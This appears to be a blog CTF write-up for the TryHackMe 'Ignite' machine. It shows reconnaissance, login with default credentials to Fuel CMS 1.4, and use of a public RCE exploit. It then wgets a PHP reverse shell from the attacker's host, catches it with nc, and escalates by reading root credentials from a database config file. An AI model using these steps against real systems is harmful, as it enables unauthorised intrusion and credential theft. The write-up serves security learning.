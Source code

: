 ```yaml
---
layout: post
permalink: /posts/thm/ignite
title: "Ignite"
---
```


As always let's check what open ports the target machine has.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/ignite/nmap.png)

Based on the nmap result we can see that there is open port 80 with CMS (Content Management System) running on it. In addition we can notice that the CMS is Fuel CMS, also we can see that there is one disallowed entry in the robots.txt. Let's scan the web service for any hidden directories.

```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

While we are waiting for the result from gobuster we can visit the web page and look through it.

![website](/assets/images/thm/ignite/website.png)

There we can see the Fuel CMS version, it's 1.4. At the end of the page we can find endpoint to the admin panel as well as the default credentials.

![creds](/assets/images/thm/ignite/creds.png)

Navigate to this endpoint.

![login-page](/assets/images/thm/ignite/login-page.png)

An attempt to login with the found credentials was successful.

![fuel-login](/assets/images/thm/ignite/fuel-login.png)

Looking through google for any known exploits about Fuel CMS 1.4 I found the following RCE (Remote Code Execution) exploit:https://www.exploit-db.com/exploits/50477

I downloaded the exploit and rename the file to `exp.py`. Execute the script by providing `-u` switch and the address to the CMS service.  

```
./exp.py -u http://10.10.220.239
```

![exp-shell](/assets/images/thm/ignite/exp-shell.png)

We are able to execute any commands in the system where the CMS service is hosted but the result from the command is really slow, so I decided to create a reverse shell. I have used the following php script for reverse shell:  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Once you create the reverse shell script on your host, start a python server to be able to download the script on the target machine.

```
python3 -m http.server
```

Now from the tab where we have already established RCE execute the following command.
```
wget http://10.10.240.3:8000/rev.php
```

Once the script is downloaded, start listener on our host.
```
nc -lvnp 4444
```

Now execute the reverse shell
```
php -f rev.php
```

![rev-shell](/assets/images/thm/ignite/rev-shell.png)

From here we are good to find the first flag. The last thing that we need to do is to escalate our privileges to root. As always let's check whether our user has the rights to execute any commands as root. But first we need to get a normal tty, otherwise some commands may not be executed (as sudo -l)

Stabilize shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

I checked for sudo rights with `sudo -l` and I also took a look at `/etc/crontab` for any cron jobs that could be ran. None of these method was successfull, however I remembered that in the Fuel CMS home page there were some information about database.

![esc](/assets/images/thm/ignite/esc.png)

Navigate to `/var/www/html/fuel/application/config` and read the database file.
```
cat database.php
```

![db-cred](/assets/images/thm/ignite/db-cred.png)

We have found some root credentials, let's check whether we can switch to root

![root](/assets/images/thm/ignite/root.png)

Here we go. We were able to escalate our privileges to root.